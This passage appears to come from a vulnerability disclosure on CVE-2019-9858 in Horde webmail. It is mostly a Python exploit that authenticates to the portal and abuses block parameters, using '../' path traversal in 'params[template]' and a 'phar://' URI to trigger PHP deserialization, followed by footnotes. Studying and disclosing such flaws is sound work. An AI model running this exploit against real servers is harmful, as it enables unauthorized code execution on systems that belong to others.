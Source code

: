 ```python
            'app': app,
        }
        response = self.session.post(url, data=data)
        assert response.status_code == 200, 'Cannot add the bookmark block'

        # edit bookmark block
        url = '{}/services/portal/edit.php'.format(self.base_url)
        data = {
            'token': self.token,
            'row': 0,
            'col': 0,
            'action': 'save',
            'app': app,
            'params[template]': '../../../../../../../../../../../' + path
        }
        response = self.session.post(url, data=data)
        assert response.status_code == 200, 'Cannot edit the bookmark block'

        # evaluate the remote file
        url = '{}/services/portal/'.format(self.base_url)
        response = self.session.get(url)
        print(response.text)

        # remove the bookmark block so to not break the page
        url = '{}/services/portal/edit.php'.format(self.base_url)
        data = {
            # XXX token not needed here
            'row': 0,
            'col': 0,
            'action': 'removeBlock'
        }
        response = self.session.post(url, data=data)
        assert response.status_code == 200, 'Cannot reset the bookmark block'

    def trigger_phar(self, path):
        # vulnerable block (alternatively the same can be obtained by creating a
        # bookmark with the PHAR path and clocking on it)
        app = 'horde:horde_Block_Feed'

        # add syndicated feed block
        url = '{}/services/portal/edit.php'.format(self.base_url)
        data = {
            'token': self.token,
            'row': 0,
            'col': 0,
            'action': 'save-resume',
            'app': app,
        }
        response = self.session.post(url, data=data)
        assert response.status_code == 200, 'Cannot add the syndicated feed block'

        # edit syndicated feed block
        url = '{}/services/portal/edit.php'.format(self.base_url)
        data = {
            'token': self.token,
            'row': 0,
            'col': 0,
            'action': 'save',
            'app': app,
            'params[uri]': 'phar://{}'.format(path)
        }
        response = self.session.post(url, data=data)
        assert response.status_code == 200, 'Cannot edit the syndicated feed block'
```

[fix]: https://github.com/horde/Form/commit/f5fc41e9d3f1a7bc9371dda5d39ea7629b0030f3
[CVE-2019-9858]: https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-9858
[^phar-extension]: Apparently it is not strictly needed to use the `.phar` extension, *any* non-empty extension will cause PHP to treat the file as PHAR if accessed via the `phar://` scheme.
[^three-blocks]: Actually the Git version comes with a third apparently vulnerable block (`Tagsearch.php`) but it is missing in the PEAR and Debian APT versions.
[^manual]: This cannot be done directly from the web page, either intercept the request or use the developer tools of the browser to change the value.
[^phar-unserialization]: See [File Operation Induced Unserialization via the "phar://" Stream Wrapper](https://i.blackhat.com/us-18/Thu-August-9/us-18-Thomas-Its-A-PHP-Unserialization-Vulnerability-Jim-But-Not-As-We-Know-It-wp.pdf).
[`phar.readonly`]: http://php.net/phar.readonly